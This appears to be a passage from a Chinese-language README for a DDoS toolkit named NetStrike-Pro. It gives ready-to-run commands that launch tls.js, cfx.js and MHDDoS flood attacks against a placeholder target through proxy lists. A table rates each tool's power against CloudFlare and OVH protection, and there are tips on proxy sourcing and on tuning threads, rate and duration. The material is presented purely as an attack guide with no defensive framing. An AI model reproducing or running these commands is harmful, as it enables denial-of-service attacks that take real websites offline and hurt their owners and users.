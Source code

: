 ```bash
cd NetStrike-Pro/legacy

# 终端 1: tls.js 攻击
node 新建文件夹/tls.js https://目标.com 300 128 10 proxy_paid.txt

# 终端 2: cfx.js 攻击
node 新建文件夹/cfx.js https://目标.com proxy_paid.txt 300

# 终端 3: MHDDoS 攻击
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 300
```

---

## 📊 工具对比

| 工具 | 类型 | 威力 | 适用场景 | 推荐度 |
|------|------|------|----------|--------|
| **tls.js** | HTTP/2 | ⭐⭐⭐⭐⭐ | CloudFlare 高防护 | ⭐⭐⭐⭐⭐ |
| **cfx.js** | HTTP/1.1 | ⭐⭐⭐⭐ | 快速测试 | ⭐⭐⭐⭐ |
| **cc.py** | HTTP | ⭐⭐⭐⭐ | 通用稳定 | ⭐⭐⭐⭐⭐ |
| **MHDDoS CFB** | HTTP/2 | ⭐⭐⭐⭐⭐ | CloudFlare 专用 | ⭐⭐⭐⭐⭐ |
| **MHDDoS OVH** | HTTP | ⭐⭐⭐⭐⭐ | OVH CDN | ⭐⭐⭐⭐ |
| **MHDDoS TCP** | Layer 4 | ⭐⭐⭐⭐ | 端口攻击 | ⭐⭐⭐⭐ |

---

## 🎓 进阶技巧

### 1. 代理优化

```bash
# 使用付费代理（推荐）
./refresh_proxy.sh
# 优点: 高质量、高成功率

# 使用筛选后的免费代理
python3 超高速筛选.py
# 优点: 大量、免费
```

### 2. 性能调优

**tls.js**:
- 线程: 5-20（推荐 10）
- 速率: 64-256（推荐 128）
- 时间: 60-300 秒
